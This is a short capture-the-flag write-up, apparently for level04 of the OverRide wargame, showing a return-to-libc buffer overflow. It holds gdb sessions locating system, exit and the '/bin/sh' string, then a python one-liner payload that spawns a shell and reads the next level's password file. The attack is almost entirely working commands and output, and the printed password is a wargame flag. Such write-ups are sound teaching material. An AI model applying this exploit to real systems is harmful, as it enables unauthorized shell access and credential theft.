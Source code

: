 # Return2libc Attack

```bash
(gdb) b main
Breakpoint 1 at 0x80486cd
```

```
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
```

addr function system call from lib C

```
(gdb) p exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
```

addr function exit call from lib C

```
(gdb) info proc map
process 3419
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /home/users/level04/level04
	 0x8049000  0x804a000     0x1000        0x0 /home/users/level04/level04
	 0x804a000  0x804b000     0x1000     0x1000 /home/users/level04/level04
	0xf7e2b000 0xf7e2c000     0x1000        0x0 
	0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
	0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
	0xf7fd0000 0xf7fd4000     0x4000        0x0 
	0xf7fda000 0xf7fdb000     0x1000        0x0 
	0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
	0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
	0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
	0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
	0xfffdd000 0xffffe000    0x21000        0x0 [stack]
```

addr of lib C is between 0xf7e2c000 and 0xf7fd0000
Let's search the /bin/sh string

```
(gdb) find 0xf7e2c000, 0xf7fd0000, "/bin/sh"
0xf7f897ec
1 pattern found.
```

addr of string "/bin/sh" is 0xf7f897ec

```
level04@OverRide:~$ python -c "print 156 * 'A' + '\xf7\xe6\xae\xd0'[::-1] + '\xf7\xe5\xeb\x70'[::-1] + '\xf7\xf8\x97\xec'[::-1]" > /tmp/level4
level04@OverRide:~$ cat /tmp/level4 - | ./level04 
Give me some shellcode, k
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
^C
```
